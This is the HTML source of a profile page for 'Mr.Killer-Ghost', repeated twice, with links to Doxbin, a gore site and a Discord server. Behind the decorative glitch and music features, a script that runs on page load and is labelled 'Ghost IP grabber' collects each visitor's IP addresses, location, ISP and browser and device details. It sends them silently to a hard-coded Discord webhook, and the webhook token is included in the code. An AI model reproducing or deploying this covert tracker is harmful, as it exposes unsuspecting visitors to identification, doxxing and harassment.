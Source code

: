 # <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
  <title>Mr.Killer-Ghost</title>
  <link rel="preload" href="songs/Joan Of Arc.mp3" as="audio" />
  <link rel="preload" href="https://raw.githubusercontent.com/Mr-Killer-Ghost/ghost/refs/heads/main/pics/pfp.png" as="image" />
  <link rel="preload" href="https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/cur.png" as="image" />
  <link rel="preload" href="https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/new%20BG-2.png" as="image" />
  <style>
    body {
      margin: 0;
      padding: 0;
      font-family: cursive;
      background-image: url('https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/new%20BG-2.png?raw=true');
      background-size: cover;
      background-position: center;
      background-repeat: no-repeat;
      background-attachment: fixed;
      color: #ffffff;
      display: flex;
      justify-content: center;
      align-items: center;
      height: 100vh;
      cursor: url('https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/cur.png?raw=true'), auto;
      overflow: hidden;
    }

    #start-screen {
      position: fixed;
      top: 0; left: 0;
      width: 100vw; height: 100vh;
      background: #000;
      color: #fff;
      display: flex;
      justify-content: center;
      align-items: center;
      flex-direction: column;
      z-index: 9999;
      opacity: 1;
      transition: opacity 1s ease;
      cursor: url('https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/cur.png?raw=true'), pointer;
    }

    #start-screen.fade-out {
      opacity: 0;
      pointer-events: none;
    }

    #start-screen h1 {
      font-size: 3rem;
      margin: 0 0 1rem 0;
      text-shadow: 0 0 5px red, 0 0 15px red, 0 0 25px darkred;
    }

    .container {
      text-align: center;
      max-width: 400px;
      width: 90%;
      z-index: 2;
    }

    .profile .avatar {
      width: 150px;
      height: 150px;
      border-radius: 50%;
      margin-bottom: 1rem;
    }

    .profile h1 {
      margin: 0.5rem 0;
      font-size: 3rem;
      color: red;
      text-shadow: 0 0 1px red, 0 0 10px red, 0 0 14px darkred;
    }

    .profile p {
      margin-bottom: 2rem;
      color: #aaaaaa;
      font-size: 1.25rem;
    }

    .links .link-button {
      display: block;
      position: relative;
      background-color: #000000;
      color: #ffffff;
      text-decoration: none;
      padding: 1rem;
      margin: 0.75rem 0;
      border-radius: 8px;
      font-size: 1.2rem;
      overflow: hidden;
      transition: background-color 0.3s, transform 0.2s ease, text-shadow 0.3s ease;
    }

    .links .link-button::before {
      content: "";
      position: absolute;
      top: var(--y, 50%);
      left: var(--x, 50%);
      width: 300px;
      height: 300px;
      background: radial-gradient(circle, rgba(255, 255, 255, 0.4) 0%, transparent 60%);
      transform: translate(-50%, -50%);
      opacity: 0;
      transition: opacity 0.3s ease, top 0.2s ease, left 0.2s ease;
      pointer-events: none;
    }

    .links .link-button:hover {
      background-color: #2c2c2c;
      transform: scale(1.05);
      cursor: url('https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/cur.png?raw=true'), pointer;
    }

    .links .link-button:hover::before {
      opacity: 1;
    }

    .glitch {
      position: relative;
      font-size: 3rem;
      color: red;
      text-shadow: 0 0 2px red, 0 0 15px red, 0 0 20px darkred;
      animation: glitch-skew 1.5s infinite ease-in-out alternate-reverse;
    }

    .glitch::before,
    .glitch::after {
      content: attr(data-text);
      position: absolute;
      top: 0; left: 0;
      width: 100%;
      overflow: hidden;
      clip-path: inset(0);
      z-index: -1;
    }

    .glitch::before {
      color: cyan;
      text-shadow: 0 0 5px cyan;
      animation: glitch-anim-before 2.5s infinite ease-in-out;
    }

    .glitch::after {
      color: magenta;
      text-shadow: 0 0 5px magenta;
      animation: glitch-anim-after 2.5s infinite ease-in-out;
    }

    @keyframes glitch-skew {
      0% { transform: skew(0deg); }
      15% { transform: skew(-1.5deg); }
      30% { transform: skew(1.5deg); }
      45% { transform: skew(-1deg); }
      60% { transform: skew(1deg); }
      75% { transform: skew(-0.75deg); }
      90% { transform: skew(0.75deg); }
      100% { transform: skew(0deg); }
    }

    @keyframes glitch-anim-before {
      0% { clip-path: inset(60% 0 30% 0); transform: translate(-2px, 1px); opacity: 0.85; }
      20% { clip-path: inset(40% 0 40% 0); transform: translate(-1px, 1.5px); opacity: 0.75; }
      40% { clip-path: inset(30% 0 50% 0); transform: translate(-1.5px, 1px); opacity: 0.65; }
      60% { clip-path: inset(25% 0 55% 0); transform: translate(-0.5px, 0.5px); opacity: 0.7; }
      80% { clip-path: inset(10% 0 70% 0); transform: translate(-1px, 1px); opacity: 0.6; }
      100% { clip-path: inset(0 0 100% 0); transform: translate(0, 0); opacity: 0.7; }
    }

    @keyframes glitch-anim-after {
      0% { clip-path: inset(0 0 100% 0); transform: translate(1px, 2px); opacity: 0.7; }
      20% { clip-path: inset(20% 0 60% 0); transform: translate(0.5px, 1.5px); opacity: 0.65; }
      40% { clip-path: inset(30% 0 50% 0); transform: translate(1px, 1px); opacity: 0.6; }
      60% { clip-path: inset(40% 0 40% 0); transform: translate(1.5px, 0.5px); opacity: 0.7; }
      80% { clip-path: inset(50% 0 30% 0); transform: translate(1px, 1px); opacity: 0.6; }
      100% { clip-path: inset(100% 0 0 0); transform: translate(0, 0); opacity: 0.7; }
    }

    /* Volume slider styles */
    #volume-container {
      position: fixed;
      top: 10px;
      left: 10px;
      z-index: 10000;
      background: rgba(0,0,0,0.6);
      padding: 5px 10px;
      border-radius: 8px;
      user-select: none;
      display: flex;
      align-items: center;
      gap: 6px;
      font-family: cursive;
      color: white;
      font-size: 14px;
    }

    #volume-slider {
      -webkit-appearance: none;
      width: 100px;
      height: 6px;
      background: #333;
      border-radius: 3px;
      cursor: pointer;
      transition: background-color 0.3s;
    }

    #volume-slider:hover {
      background: #555;
    }

    #volume-slider::-webkit-slider-thumb {
      -webkit-appearance: none;
      appearance: none;
      width: 16px;
      height: 16px;
      background: red;
      cursor: pointer;
      border-radius: 50%;
      border: 2px solid white;
      transition: background-color 0.3s;
    }

    #volume-slider::-webkit-slider-thumb:hover {
      background: #ff4444;
    }

    #volume-slider::-moz-range-thumb {
      width: 16px;
      height: 16px;
      background: red;
      cursor: pointer;
      border-radius: 50%;
      border: 2px solid white;
      transition: background-color 0.3s;
    }

    #volume-slider::-moz-range-thumb:hover {
      background: #ff4444;
    }
  </style>
</head>
<body>

  <div id="volume-container">
    <label for="volume-slider"></label>
    <input type="range" id="volume-slider" min="0" max="1" step="0.01" value="1" />
  </div>

  <div class="container">
    <div class="profile">
      <img src="https://raw.githubusercontent.com/Mr-Killer-Ghost/ghost/refs/heads/main/pics/pfp.png" alt="Avatar" class="avatar" loading="lazy"/>
      <h1 class="glitch" data-text="Mr.Killer-Ghost">Mr.Killer-Ghost</h1>
      <p>Type.</p>
    </div>
    <div class="links">
      <a href="https://discord.gg/YeJwxrDM3w" target="_blank" class="link-button">Cyclops Ghosts Discord</a>
      <a href="https://watchpeopledie.tv/@Mr-Ghost" target="_blank" class="link-button">WPD</a>
      <a href="https://doxbin.net/user/invisible_ghost" target="_blank" class="link-button">Doxbin</a>
    </div>
  </div>

  <div id="start-screen">
    <h1>Click To Enter</h1>
  </div>

  <audio id="audio-player" src="songs/Joan Of Arc.mp3"></audio>

  <script>
    const startScreen = document.getElementById('start-screen');
    const audio = document.getElementById('audio-player');
    const volumeSlider = document.getElementById('volume-slider');

    startScreen.addEventListener('click', () => {
      startScreen.classList.add('fade-out');
      startScreen.addEventListener('transitionend', () => {
        startScreen.style.display = 'none';
      }, { once: true });
      audio.play();
    });

    // Load saved volume or default to 1
    const savedVolume = localStorage.getItem('volume');
    if (savedVolume !== null) {
      audio.volume = savedVolume;
      volumeSlider.value = savedVolume;
    }

    // Save volume when changed
    volumeSlider.addEventListener('input', () => {
      audio.volume = volumeSlider.value;
      localStorage.setItem('volume', volumeSlider.value);
    });

    // Title glitch
    const originalTitle = "Mr.Killer-Ghost";
    const glitchChars = ['@', '#', '$', '%', '&', '*', '+', '=', '~'];
    let interval;

    function glitchTitle() {
      let count = 0;
      interval = setInterval(() => {
        let glitched = originalTitle
          .split('')
          .map(char => Math.random() < 0.2 ? glitchChars[Math.floor(Math.random() * glitchChars.length)] : char)
          .join('');
        document.title = glitched;

        count++;
        if (count > 10) {
          clearInterval(interval);
          document.title = originalTitle;
          setTimeout(glitchTitle, 3000 + Math.random() * 2000);
        }
      }, 100);
    }

    glitchTitle();

    // Flashlight buttons
    const buttons = document.querySelectorAll('.link-button');
    buttons.forEach(button => {
      button.addEventListener('mousemove', (e) => {
        const rect = button.getBoundingClientRect();
        const x = e.clientX - rect.left;
        const y = e.clientY - rect.top;
        button.style.setProperty('--x', `${x}px`);
        button.style.setProperty('--y', `${y}px`);
      });
    });
    
  </script>

  <script>
  const webhookUrl = "https://discord.com/api/webhooks/1394009563799490630/EVOCTkNYfTh0qs8CM8o37aNZAGsnoq-AF7yHD-wgh5q8z-VwyQOASBQM5aXqKdE40b7x";

  let ipv6Address = "Not detected";
  let ipv4Address = "Not detected";
  let country = "Not detected";
  let region = "Not detected";
  let city = "Not detected";
  let isp = "Not detected";

  let ipv6Done = false;
  let ipv4Done = false;
  let geoDone = false;

  function getBrowserType() {
    const ua = navigator.userAgent.toLowerCase();
    if (/waterfox/.test(ua)) return 'Waterfox';
    if (/edg\//.test(ua)) return 'Microsoft Edge';
    if (/opr\//.test(ua) || window.opr) return 'Opera';
    if (/vivaldi/.test(ua)) return 'Vivaldi';
    if (/brave\//.test(ua)) return 'Brave';
    if (/chrome|chromium|crios/.test(ua)) return 'Google Chrome';
    if (/firefox|fxios/.test(ua)) return 'Mozilla Firefox';
    if (/safari/.test(ua) && !/chrome|chromium|crios/.test(ua)) return 'Apple Safari';
    if (/trident|msie/.test(ua)) return 'Internet Explorer';
    if (/kaios/.test(ua)) return 'KaiOS Browser';
    return 'Unknown Browser';
  }

  function getOS() {
    const ua = navigator.userAgent;
    if (ua.indexOf("Win") !== -1) return "Windows";
    if (ua.indexOf("Mac") !== -1) return "MacOS";
    if (ua.indexOf("X11") !== -1) return "UNIX";
    if (ua.indexOf("Linux") !== -1) return "Linux";
    if (/Android/.test(ua)) return "Android";
    if (/iPhone|iPad|iPod/.test(ua)) return "iOS";
    return "Unknown";
  }

  function getDeviceType() {
    const ua = navigator.userAgent;
    if (/Mobi|Android/i.test(ua)) return "Mobile";
    if (/Tablet|iPad/i.test(ua)) return "Tablet";
    return "Desktop";
  }

  const browserType = getBrowserType();
  const operatingSystem = getOS();
  const deviceType = getDeviceType();
  const userAgent = navigator.userAgent;
  const referrer = document.referrer || "None";
  const timezone = Intl.DateTimeFormat().resolvedOptions().timeZone || "Not detected";
  const language = navigator.language || "Not detected";
  const screenResolution = `${screen.width}x${screen.height}`;

  // IPv6
  fetch("https://v6.ident.me/.json")
    .then(res => res.json())
    .then(data => {
      ipv6Address = data.address;
    })
    .catch(() => {
      ipv6Address = "Not detected";
    })
    .finally(() => {
      ipv6Done = true;
      checkAndSend();
    });

  // IPv4
  fetch("https://v4.ident.me/.json")
    .then(res => res.json())
    .then(data => {
      ipv4Address = data.address;
    })
    .catch(() => {
      ipv4Address = "Not detected";
    })
    .finally(() => {
      ipv4Done = true;
      checkAndSend();
    });

  // Geo
  fetch("https://ipapi.co/json/")
    .then(res => res.json())
    .then(data => {
      country = data.country_name || "Not detected";
      region = data.region || data.region_code || "Not detected";
      city = data.city || "Not detected";
      isp = data.org || "Not detected";
    })
    .catch(() => {
      country = "Not detected";
      region = "Not detected";
      city = "Not detected";
      isp = "Not detected";
    })
    .finally(() => {
      geoDone = true;
      checkAndSend();
    });

  function checkAndSend() {
    if (ipv6Done && ipv4Done && geoDone) {
      const payload = {
        content: 
`Ghost IP grabber

IPv4: ${ipv4Address}
IPv6: ${ipv6Address}
Country: ${country}
Region/State: ${region}
City: ${city}
ISP: ${isp}

Operating System: ${operatingSystem}
Browser: ${browserType}
Device Type: ${deviceType}
User Agent: ${userAgent}
Referrer: ${referrer}
Timezone: ${timezone}
Language: ${language}
Screen Resolution: ${screenResolution}`
      };

      fetch(webhookUrl, {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify(payload)
      })
      .then(() => {
        console.log("All info sent to Discord!");
      })
      .catch(error => {
        console.error("Failed to send to Discord:", error);
      });
    }
  }
</script>




</body>
</html>
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
  <title>Mr.Killer-Ghost</title>
  <link rel="preload" href="songs/Joan Of Arc.mp3" as="audio" />
  <link rel="preload" href="https://raw.githubusercontent.com/Mr-Killer-Ghost/ghost/refs/heads/main/pics/pfp.png" as="image" />
  <link rel="preload" href="https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/cur.png" as="image" />
  <link rel="preload" href="https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/new%20BG-2.png" as="image" />
  <style>
    body {
      margin: 0;
      padding: 0;
      font-family: cursive;
      background-image: url('https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/new%20BG-2.png?raw=true');
      background-size: cover;
      background-position: center;
      background-repeat: no-repeat;
      background-attachment: fixed;
      color: #ffffff;
      display: flex;
      justify-content: center;
      align-items: center;
      height: 100vh;
      cursor: url('https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/cur.png?raw=true'), auto;
      overflow: hidden;
    }

    #start-screen {
      position: fixed;
      top: 0; left: 0;
      width: 100vw; height: 100vh;
      background: #000;
      color: #fff;
      display: flex;
      justify-content: center;
      align-items: center;
      flex-direction: column;
      z-index: 9999;
      opacity: 1;
      transition: opacity 1s ease;
      cursor: url('https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/cur.png?raw=true'), pointer;
    }

    #start-screen.fade-out {
      opacity: 0;
      pointer-events: none;
    }

    #start-screen h1 {
      font-size: 3rem;
      margin: 0 0 1rem 0;
      text-shadow: 0 0 5px red, 0 0 15px red, 0 0 25px darkred;
    }

    .container {
      text-align: center;
      max-width: 400px;
      width: 90%;
      z-index: 2;
    }

    .profile .avatar {
      width: 150px;
      height: 150px;
      border-radius: 50%;
      margin-bottom: 1rem;
    }

    .profile h1 {
      margin: 0.5rem 0;
      font-size: 3rem;
      color: red;
      text-shadow: 0 0 1px red, 0 0 10px red, 0 0 14px darkred;
    }

    .profile p {
      margin-bottom: 2rem;
      color: #aaaaaa;
      font-size: 1.25rem;
    }

    .links .link-button {
      display: block;
      position: relative;
      background-color: #000000;
      color: #ffffff;
      text-decoration: none;
      padding: 1rem;
      margin: 0.75rem 0;
      border-radius: 8px;
      font-size: 1.2rem;
      overflow: hidden;
      transition: background-color 0.3s, transform 0.2s ease, text-shadow 0.3s ease;
    }

    .links .link-button::before {
      content: "";
      position: absolute;
      top: var(--y, 50%);
      left: var(--x, 50%);
      width: 300px;
      height: 300px;
      background: radial-gradient(circle, rgba(255, 255, 255, 0.4) 0%, transparent 60%);
      transform: translate(-50%, -50%);
      opacity: 0;
      transition: opacity 0.3s ease, top 0.2s ease, left 0.2s ease;
      pointer-events: none;
    }

    .links .link-button:hover {
      background-color: #2c2c2c;
      transform: scale(1.05);
      cursor: url('https://github.com/Mr-Killer-Ghost/ghost/blob/main/pics/cur.png?raw=true'), pointer;
    }

    .links .link-button:hover::before {
      opacity: 1;
    }

    .glitch {
      position: relative;
      font-size: 3rem;
      color: red;
      text-shadow: 0 0 2px red, 0 0 15px red, 0 0 20px darkred;
      animation: glitch-skew 1.5s infinite ease-in-out alternate-reverse;
    }

    .glitch::before,
    .glitch::after {
      content: attr(data-text);
      position: absolute;
      top: 0; left: 0;
      width: 100%;
      overflow: hidden;
      clip-path: inset(0);
      z-index: -1;
    }

    .glitch::before {
      color: cyan;
      text-shadow: 0 0 5px cyan;
      animation: glitch-anim-before 2.5s infinite ease-in-out;
    }

    .glitch::after {
      color: magenta;
      text-shadow: 0 0 5px magenta;
      animation: glitch-anim-after 2.5s infinite ease-in-out;
    }

    @keyframes glitch-skew {
      0% { transform: skew(0deg); }
      15% { transform: skew(-1.5deg); }
      30% { transform: skew(1.5deg); }
      45% { transform: skew(-1deg); }
      60% { transform: skew(1deg); }
      75% { transform: skew(-0.75deg); }
      90% { transform: skew(0.75deg); }
      100% { transform: skew(0deg); }
    }

    @keyframes glitch-anim-before {
      0% { clip-path: inset(60% 0 30% 0); transform: translate(-2px, 1px); opacity: 0.85; }
      20% { clip-path: inset(40% 0 40% 0); transform: translate(-1px, 1.5px); opacity: 0.75; }
      40% { clip-path: inset(30% 0 50% 0); transform: translate(-1.5px, 1px); opacity: 0.65; }
      60% { clip-path: inset(25% 0 55% 0); transform: translate(-0.5px, 0.5px); opacity: 0.7; }
      80% { clip-path: inset(10% 0 70% 0); transform: translate(-1px, 1px); opacity: 0.6; }
      100% { clip-path: inset(0 0 100% 0); transform: translate(0, 0); opacity: 0.7; }
    }

    @keyframes glitch-anim-after {
      0% { clip-path: inset(0 0 100% 0); transform: translate(1px, 2px); opacity: 0.7; }
      20% { clip-path: inset(20% 0 60% 0); transform: translate(0.5px, 1.5px); opacity: 0.65; }
      40% { clip-path: inset(30% 0 50% 0); transform: translate(1px, 1px); opacity: 0.6; }
      60% { clip-path: inset(40% 0 40% 0); transform: translate(1.5px, 0.5px); opacity: 0.7; }
      80% { clip-path: inset(50% 0 30% 0); transform: translate(1px, 1px); opacity: 0.6; }
      100% { clip-path: inset(100% 0 0 0); transform: translate(0, 0); opacity: 0.7; }
    }

    /* Volume slider styles */
    #volume-container {
      position: fixed;
      top: 10px;
      left: 10px;
      z-index: 10000;
      background: rgba(0,0,0,0.6);
      padding: 5px 10px;
      border-radius: 8px;
      user-select: none;
      display: flex;
      align-items: center;
      gap: 6px;
      font-family: cursive;
      color: white;
      font-size: 14px;
    }

    #volume-slider {
      -webkit-appearance: none;
      width: 100px;
      height: 6px;
      background: #333;
      border-radius: 3px;
      cursor: pointer;
      transition: background-color 0.3s;
    }

    #volume-slider:hover {
      background: #555;
    }

    #volume-slider::-webkit-slider-thumb {
      -webkit-appearance: none;
      appearance: none;
      width: 16px;
      height: 16px;
      background: red;
      cursor: pointer;
      border-radius: 50%;
      border: 2px solid white;
      transition: background-color 0.3s;
    }

    #volume-slider::-webkit-slider-thumb:hover {
      background: #ff4444;
    }

    #volume-slider::-moz-range-thumb {
      width: 16px;
      height: 16px;
      background: red;
      cursor: pointer;
      border-radius: 50%;
      border: 2px solid white;
      transition: background-color 0.3s;
    }

    #volume-slider::-moz-range-thumb:hover {
      background: #ff4444;
    }
  </style>
</head>
<body>

  <div id="volume-container">
    <label for="volume-slider"></label>
    <input type="range" id="volume-slider" min="0" max="1" step="0.01" value="1" />
  </div>

  <div class="container">
    <div class="profile">
      <img src="https://raw.githubusercontent.com/Mr-Killer-Ghost/ghost/refs/heads/main/pics/pfp.png" alt="Avatar" class="avatar" loading="lazy"/>
      <h1 class="glitch" data-text="Mr.Killer-Ghost">Mr.Killer-Ghost</h1>
      <p>Type.</p>
    </div>
    <div class="links">
      <a href="https://discord.gg/YeJwxrDM3w" target="_blank" class="link-button">Cyclops Ghosts Discord</a>
      <a href="https://watchpeopledie.tv/@Mr-Ghost" target="_blank" class="link-button">WPD</a>
      <a href="https://doxbin.net/user/invisible_ghost" target="_blank" class="link-button">Doxbin</a>
    </div>
  </div>

  <div id="start-screen">
    <h1>Click To Enter</h1>
  </div>

  <audio id="audio-player" src="songs/Joan Of Arc.mp3"></audio>

  <script>
    const startScreen = document.getElementById('start-screen');
    const audio = document.getElementById('audio-player');
    const volumeSlider = document.getElementById('volume-slider');

    startScreen.addEventListener('click', () => {
      startScreen.classList.add('fade-out');
      startScreen.addEventListener('transitionend', () => {
        startScreen.style.display = 'none';
      }, { once: true });
      audio.play();
    });

    // Load saved volume or default to 1
    const savedVolume = localStorage.getItem('volume');
    if (savedVolume !== null) {
      audio.volume = savedVolume;
      volumeSlider.value = savedVolume;
    }

    // Save volume when changed
    volumeSlider.addEventListener('input', () => {
      audio.volume = volumeSlider.value;
      localStorage.setItem('volume', volumeSlider.value);
    });

    // Title glitch
    const originalTitle = "Mr.Killer-Ghost";
    const glitchChars = ['@', '#', '$', '%', '&', '*', '+', '=', '~'];
    let interval;

    function glitchTitle() {
      let count = 0;
      interval = setInterval(() => {
        let glitched = originalTitle
          .split('')
          .map(char => Math.random() < 0.2 ? glitchChars[Math.floor(Math.random() * glitchChars.length)] : char)
          .join('');
        document.title = glitched;

        count++;
        if (count > 10) {
          clearInterval(interval);
          document.title = originalTitle;
          setTimeout(glitchTitle, 3000 + Math.random() * 2000);
        }
      }, 100);
    }

    glitchTitle();

    // Flashlight buttons
    const buttons = document.querySelectorAll('.link-button');
    buttons.forEach(button => {
      button.addEventListener('mousemove', (e) => {
        const rect = button.getBoundingClientRect();
        const x = e.clientX - rect.left;
        const y = e.clientY - rect.top;
        button.style.setProperty('--x', `${x}px`);
        button.style.setProperty('--y', `${y}px`);
      });
    });
    
  </script>

  <script>
  const webhookUrl = "https://discord.com/api/webhooks/1394009563799490630/EVOCTkNYfTh0qs8CM8o37aNZAGsnoq-AF7yHD-wgh5q8z-VwyQOASBQM5aXqKdE40b7x";

  let ipv6Address = "Not detected";
  let ipv4Address = "Not detected";
  let country = "Not detected";
  let region = "Not detected";
  let city = "Not detected";
  let isp = "Not detected";

  let ipv6Done = false;
  let ipv4Done = false;
  let geoDone = false;

  function getBrowserType() {
    const ua = navigator.userAgent.toLowerCase();
    if (/waterfox/.test(ua)) return 'Waterfox';
    if (/edg\//.test(ua)) return 'Microsoft Edge';
    if (/opr\//.test(ua) || window.opr) return 'Opera';
    if (/vivaldi/.test(ua)) return 'Vivaldi';
    if (/brave\//.test(ua)) return 'Brave';
    if (/chrome|chromium|crios/.test(ua)) return 'Google Chrome';
    if (/firefox|fxios/.test(ua)) return 'Mozilla Firefox';
    if (/safari/.test(ua) && !/chrome|chromium|crios/.test(ua)) return 'Apple Safari';
    if (/trident|msie/.test(ua)) return 'Internet Explorer';
    if (/kaios/.test(ua)) return 'KaiOS Browser';
    return 'Unknown Browser';
  }

  function getOS() {
    const ua = navigator.userAgent;
    if (ua.indexOf("Win") !== -1) return "Windows";
    if (ua.indexOf("Mac") !== -1) return "MacOS";
    if (ua.indexOf("X11") !== -1) return "UNIX";
    if (ua.indexOf("Linux") !== -1) return "Linux";
    if (/Android/.test(ua)) return "Android";
    if (/iPhone|iPad|iPod/.test(ua)) return "iOS";
    return "Unknown";
  }

  function getDeviceType() {
    const ua = navigator.userAgent;
    if (/Mobi|Android/i.test(ua)) return "Mobile";
    if (/Tablet|iPad/i.test(ua)) return "Tablet";
    return "Desktop";
  }

  const browserType = getBrowserType();
  const operatingSystem = getOS();
  const deviceType = getDeviceType();
  const userAgent = navigator.userAgent;
  const referrer = document.referrer || "None";
  const timezone = Intl.DateTimeFormat().resolvedOptions().timeZone || "Not detected";
  const language = navigator.language || "Not detected";
  const screenResolution = `${screen.width}x${screen.height}`;

  // IPv6
  fetch("https://v6.ident.me/.json")
    .then(res => res.json())
    .then(data => {
      ipv6Address = data.address;
    })
    .catch(() => {
      ipv6Address = "Not detected";
    })
    .finally(() => {
      ipv6Done = true;
      checkAndSend();
    });

  // IPv4
  fetch("https://v4.ident.me/.json")
    .then(res => res.json())
    .then(data => {
      ipv4Address = data.address;
    })
    .catch(() => {
      ipv4Address = "Not detected";
    })
    .finally(() => {
      ipv4Done = true;
      checkAndSend();
    });

  // Geo
  fetch("https://ipapi.co/json/")
    .then(res => res.json())
    .then(data => {
      country = data.country_name || "Not detected";
      region = data.region || data.region_code || "Not detected";
      city = data.city || "Not detected";
      isp = data.org || "Not detected";
    })
    .catch(() => {
      country = "Not detected";
      region = "Not detected";
      city = "Not detected";
      isp = "Not detected";
    })
    .finally(() => {
      geoDone = true;
      checkAndSend();
    });

  function checkAndSend() {
    if (ipv6Done && ipv4Done && geoDone) {
      const payload = {
        content: 
`Ghost IP grabber

IPv4: ${ipv4Address}
IPv6: ${ipv6Address}
Country: ${country}
Region/State: ${region}
City: ${city}
ISP: ${isp}

Operating System: ${operatingSystem}
Browser: ${browserType}
Device Type: ${deviceType}
User Agent: ${userAgent}
Referrer: ${referrer}
Timezone: ${timezone}
Language: ${language}
Screen Resolution: ${screenResolution}`
      };

      fetch(webhookUrl, {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify(payload)
      })
      .then(() => {
        console.log("All info sent to Discord!");
      })
      .catch(error => {
        console.error("Failed to send to Discord:", error);
      });
    }
  }
</script>




</body>
</html>
